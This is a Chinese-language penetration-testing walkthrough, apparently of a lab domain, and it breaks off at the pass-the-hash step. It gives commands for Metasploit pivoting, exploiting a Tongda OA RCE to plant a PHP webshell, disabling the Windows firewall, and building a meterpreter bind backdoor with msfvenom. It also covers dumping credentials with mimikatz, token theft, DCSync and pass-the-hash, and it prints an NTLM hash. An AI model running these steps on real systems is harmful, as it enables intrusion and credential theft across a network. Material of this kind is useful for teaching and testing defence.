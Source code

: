 查看当前主机存在哪些网段run get\_local\_subnets:  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-f418b49cef899a3cf81328e300454f3e.png)  
先进行内网中得主机发现，使用msf自带得arp：run arp\_scanner -r 10.10.1.0/24  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-543f0db77bcf3c8d11cf2525c5382a37.png)  
Msf添加路由，run autoroute -s 10.10.1.0/24  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-bcdb1fc1803c2412e37d7b6f403ce287.png)  
对所发现的IP进行端口扫描：proxychains nmap -sC -A 10.10.1.130 -p 80,53,1433,49154,6588,3389,135,21,51464,999，可见只有80端口是开放得：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-ac8bd3b2ceb689b8d15b527c8d26ec24.png)  
通过访问80端口得知是通达oa尝试使用其RCE漏洞，先用蚁剑生成php小马再利用RCE exp脚本进行攻击：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-217fd3f0b99abf801b47974166d7c3b7.png)  
连接小马，当前权限为system:  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-2793c56058dde29d8fc0446254cdb70a.png)

利用Net start、tasklist、netstat -ano等相关命令进行信息收集，得知windows Firewall打开，执行NetSh Advfirewall set allprofiles state off命令关闭防火墙。  
接着用msf生成bind后门：msfvenom -p windows/meterpreter/bind\_tcp lport=13777 -f exe -o hb.exe，用antsword文件上传bind.exe，并执行：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5ddcfdf1ec5c9a035d8e8b65cb027d76.png)

Msf执行相应命令进行连接：  
use exploit/multi/handler  
set payload windows/meterpreter/bind\_tcp  
set RHOST 10.10.1.130  
set lport 13777  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-d96d9d57bb45dd004df357097a1f5398.png)  
查看当前主机存在哪些网段run get\_local\_subnets:  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-96dc8ef1032c21c0dd9e345759b6cb48.png)  
Migrate 迁移进程后，load kiwi加载mimiatz，kiwi\_cmd sekurlsa::logonpasswords尝试使用其获取hash：357bec0ee1f524c62ba536fcd3f74472  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-6dec7535a0596c00ffc78d407a801ca5.png)  
执行sysinfo，可见该主机存在域中：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5de9cb002889ada8326b9df1ae58b0e2.png)  
使用net time定位域控：  
Chcp 65001设置乱码  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-0f8fc87e59fa344594486d850be343cf.png)  
使用msf自带模块定位域控run post/windows/gather/enum\_domain，得到域控ip：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-1bb4428ebb2e4b383d56e86e2a6a4d29.png)  
使用msf自带模块判断该主机是否有域管登录过，run post/windows/gather/enum\_logged\_on\_users：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5527870f869c88101b1eac2d0edc9b3d.png)  
还有其他相关msf自带得收集信息模块：run post/windows/gather/enum\_ad\_groups，  
run post/windows/gather/enum\_domain\_tokens

ps查看当前进程信息，可见当前域管是在线的，可以使用steal\_token进行token窃取（需要system权限），窃取到ATTACK\\adminstrator后再使用其身份执行dcsync\_ntlm获得hash：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-7f837085d4db9d42c0c13292b4a530ae.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-762f327ee691463f780597cd29fce2dd.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-90a495e07496de8cce185bc33fac016c.png)  
添加路由后，我们使用nmap对域控ip进行扫描proxychains nmap -sC -A 10.10.10.165 -p 80,53,445,1433,49154,6588,3389,135,21,51464,999：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-11a711d98a3eb200c25144a0ebfe2d19.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-07fed5d5c5e400f13e385ec8ed60c195.png)  
开放了445端口，我们可以利用获得得hash：357bec0ee1f524c62ba536fcd3f74472进行pth传递：  